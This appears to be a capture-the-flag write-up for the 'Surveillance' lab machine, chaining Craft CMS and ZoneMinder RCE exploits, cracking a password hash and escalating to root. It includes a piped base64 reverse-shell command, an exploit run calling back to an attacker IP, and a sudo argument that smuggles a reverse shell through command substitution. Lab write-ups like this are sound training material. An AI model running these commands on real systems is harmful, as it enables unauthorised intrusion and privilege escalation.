



## Enumeration

I started with an <kbd>`nmap`</kbd> scan: 

```bash
sudo nmap -sC -sV 10.10.11.245 -oA nmap/surveillance
```


Nothing special was found, so I proceeded with a full port scan while checking out the website:

```bash
sudo nmap -p- -T3 -oA nmap/surveillance-full 10.10.11.245
```


### Website

The website is about surveillance equipment.
I found 2 possible usernames: 

* `Alan Chapman`

* `Kimberly Brentford`

These could be useful later.

In the background I ran <kbd>`feroxbuster`</kbd> for enumeration while we explore :
(only 10 threads so we don't crash or slow down the site)

```bash 
feroxbuster -u http://surveillance.htb/ -t 10
```



At the bottom of the index page there is a Powered by [Craft CMS](https://github.com/craftcms/cms/tree/4.4.14).

It looks like it's using `Craft` as [CMS](https://en.wikipedia.org/wiki/Content_management_system) . 
It is written in `PHP` and `Javascript` and it's variants.
The version the link points to appears to be `4.4.14`.
There appears to be a public vulnerability for this version that enables [RCE](https://threatprotect.qualys.com/2023/09/25/craft-cms-remote-code-execution-vulnerability-cve-2023-41892/).

The full port scan I ran earlier showed no more ports are open.

I also ran <kbd>`gobuster`</kbd> to check for any virtual hosts: 

```bash
gobuster vhost -u http://surveillance.htb/ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

None were found so I ran another <kbd>`gobuster`</kbd> to find files:

```bash
gobuster dir -u http://surveillance.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt
```

It found a `index.php` file which confirms this site is using `PHP` and a weird `web.config` 
which has some rewrite rules.


## Foothold with RCE in Craft CMS

So as I mentioned earlier there is a remote code execution vulnerability present in this version. 
I read trough the vulnerability and it's quite an interesting was of exploiting. 
It is all nicely explained in [this](https://blog.calif.io/p/craftcms-rce) article but in essence we can create 
arbitrary objects with which we can include some code (there is also a nice ImageMagic trick), 
after that we upload our reverse shell file and we can execute arbitrary commands.
I found a working POC [here](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226). 
It worked very nicely and allowed us a simple non interactive shell. I upgraded it with a simple: 

```bash
echo 'base64encoded reverse shell' | base64 -d | bash
```

and set up a listener to get the callback:

```bash
nc -lvnp 4444
```

## Privilege escalation

Now we're on the box. We have to get to the user. So I looked around and found 
a `surveillance--2023-10-17-202801--v4.4.14.sql.zip` file inside  
`/var/www/html/craft/storage/backups`. 
I downloaded it, unzipped it and inside was the database scheme and this interesting part: 



After the email we have the hash and with some quick trying out we can figure out it's a `SHA-256` hash (I used `CyberChef` and `hash-identifier` tools). 

I tried cracking it with:

```bash 
hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt
```

and we get a match!


Earlier I also checked which users we have and found 3 with 

```bash
cat /etc/passwd | grep bash
```

There is `root` of course and then `matthew` and `zoneminder`. 
I tried SSHing with the cracked cracked credentials and got a match with `matthew`!

## Getting root

I started with uploading <kbd>`linpeas.sh`</kbd> as always and ran a scan too see what we have on the server.
When I got down to the listening ports section I found something listening on port `8080`.
So I used <kbd>`nc`</kbd> to try to connect and found it's a web server.


Then I used <kbd>`curl`</kbd> to send the request: <kbd>`curl http://localhost:8080`</kbd> and when I got the response it looked different than the initial website we exploited.

So I used <kbd>`ssh`</kbd> to port forward so I can access this web application on my local browser like this:

```bash
ssh -L 8088:surveillance.htb:8080 matthew@surveillance.htb
```

After that I visited the site and found there is a `ZoneMinder` login page.
After a quick google search I found out [this](https://zoneminder.com/) is the surveillance software being used 
to monitor cameras and such. I tried to login with the user `matthew` and the `zoneminder` user we discovered 
earlier and the credentials we cracked. It didn't work. After that I tried the `admin` user and it worked. We're in!

### ZoneMinder website

At the top right we can see the version it's being used. It's the `v1.36.32` version.
Again I did a quick google search and found there is a RCE vulnerability available. 
I found a description of this vulnerability [here](https://securityonline.info/cve-2023-26035-rce-flaw-in-open-source-software-application-zoneminder/) and POC [here](https://github.com/rvizx/CVE-2023-26035).

So I downloaded it and run it with 
```bash
python3 exploit.py -t http://localhost:8088/ -ip 10.10.16.34 -p 3001
``` 

and set up a <kbd>`nc`</kbd> listener. It worked and got a reverse shell. 
Again I did the same process with downloading <kbd>`linpeas.sh`</kbd> to the target and exfiltrating the output.

Then I tried <kbd>`sudo -l`</kbd> and found that we can execute ZoneMinder `Perl` scripts.


As we can see, we can execute all the `Perl` scripts provided by `ZoneMinder`.



After playing with the for a little I figured out a was for a simple `Bash` command substitution inside one of 
the parameters of the scripts. I tried a few and finally one of them worked, it was `zmupdate.pl`, like this:

```bash
sudo zmupdate.pl --user='$(bash /dev/shm/rev-shell.sh)' -pass=test
```

I set up the listener and executed the reverse shell and boom, we get root.  

<kbd>`Pwned!`</kbd>

